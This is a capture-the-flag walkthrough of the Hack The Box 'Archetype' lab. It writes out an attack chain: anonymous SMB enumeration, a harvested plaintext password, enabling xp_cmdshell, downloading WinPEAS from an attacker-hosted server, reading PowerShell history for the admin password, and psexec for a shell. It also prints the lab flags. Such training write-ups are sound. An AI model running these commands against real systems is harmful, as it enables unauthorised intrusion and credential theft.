 ```yaml
---
title: Archetype - Hack The Box

---
```


# Archetype - Hack The Box

### Task 1: Which TCP port is hosting a database server? 

To identify the open ports on the target machine, you can use`nmap`:

`nmap -p- -T4 -n --min-rate 1000 10.129.33.157`

The results show multiple open TCP ports:
<img src="nmap.png" />

- Microsoft Remote Procedure Call (msrpc): A protocol enabling communication between programs on different computers over a network.
- NetBIOS Session Service (netbios-ssn): A protocol for network file sharing over NetBIOS, typically associated with the older SMB (Server Message Block) protocol.
- Microsoft Directory Services (microsoft-ds): Provides Windows network file sharing and other services, used by the newer version of SMB.
- Microsoft SQL Server (ms-sql-s): This port (1433) is used for SQL Server communication.
- Windows Remote Management (wsman): A service enabling remote management of Windows servers using the WS-Management protocol.
- Windows Remote Management over HTTP (winrm): An extended service for remote management, including additional configurations.

Port 1433 is used by Microsoft SQL Server.
Solution: **1433**

### Task 2:  What is the name of the non-Administrative share available over SMB? 

With ports 135 and 445 open, we know that the SMB service is running, allowing file and resource sharing. To list the available SMB shares, we can use:

`smbclient -N -L 10.129.33.157`

The `-N` flag allows anonymous login, and `-L` lists available shares.

<img src="smbclientSharenames.png" />

Even though the connection failed, it displayed some share names. To connect to the "backups" share:

`smbclient -N //10.129.33.157\\backups`

We can access the _backups_ directory, which is the non-administrative share.

Solution: **backups**

### Task 3: What is the password identified in the file on the SMB share? 

After connecting to the shared _backups_ directory, we list its contents and see the _prod.dtsConfig_ file, which likely contains configuration data.

<img src="prod-dtsConfig.png" />

By downloading the file with get and inspecting its contents, we find a username and password.

Solution: **M3g4c0rp123**

### Task 4: What script from Impacket collection can be used in order to establish an authenticated connection to a Microsoft SQL Server? 

To log into the SQL Server, you can use the mssqlclient.py script from the Impacket toolkit. You can download it from [Impacket GitHub](https://github.com/fortra/impacket/blob/master/examples/mssqlclient.py).

The command to connect:
`python3 mssqlclient.py ARCHETYPE/sql_svc@10.129.33.157 -windows-auth`

The `-windows-auth` flag specifies that we are using Windows authentication.

<img src="mssqlclient-py.png" />

Solution: **mssqlclient.py**

### Task 5: What extended stored procedure of Microsoft SQL Server can be used in order to spawn a Windows command shell? 

The `xp_cmdshell` extended stored procedure allows you to execute system commands directly from SQL Server. By default, this procedure is disabled, but you can enable it as follows:

`EXEC sp_configure 'show advanced options', '1';`

`RECONFIGURE;`

`EXEC sp_configure 'xp_cmdshell', '1';`

`RECONFIGURE;`

Once enabled, you can use `xp_cmdshell` to execute commands like:

<img src="whoami.png" />

This confirms that the command shell is working. You can use `powershell -c <COMMAND>` to run PowerShell commands as well.
<img src="navigationXp.png" />

After navigating through the system, we find the user flag.
<img src="userFlag.png" />

Solution: **xp_cmdshell**

### Task 6: What script can be used in order to search possible paths to escalate privileges on Windows hosts? 

To escalate privileges, you can use WinPEAS, part of the PEAS suite. It helps in identifying potential privilege escalation vectors.

First, download WinPEAS from the [PEASS GitHub repository](https://github.com/peass-ng/PEASS-ng) and start an HTTP server to transfer it to the target:

`python3 -m http.server 80`

Then, use `xp_cmdshell` to download it to the target machine:

`xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.14.47/winPEASx64.exe -outfile winPEASx64.exe"`

Finally, execute WinPEAS on the target:

`xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\winPEASx64.exe"`

After reviewing the output, look for highlighted sections (in red) that indicate misconfigurations or vulnerabilities.

Solution: **WINPeas**

### Task 7: What file contains the administrator's password? 

WinPEAS points out an interesting discovery: the PowerShell history file, which may contain sensitive information.

Check the PowerShell history:

`xp_cmdshell "powershell -c type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt"`

<img src="ConsoleHostHistory.png" />

The file contains the administrator's password.
<img src="rootPassword.png" />

You can now use the psexec.py script from Impacket to get a reverse shell as the administrator:

`impacket-psexec Administrator@10.129.164.190`

After entering the password, you have administrator access. The root flag is located in _C:\Users\Administrator\Desktop_.
<img src="rootFlag.png" />

Great! We did it!

Solution: **ConsoleHost_history.txt**

### Flags:

User's: **3e7b102e78218e935bf3f4951fec21a3**

Root's flag: **b91ccec3305e98240082d4474b848528**
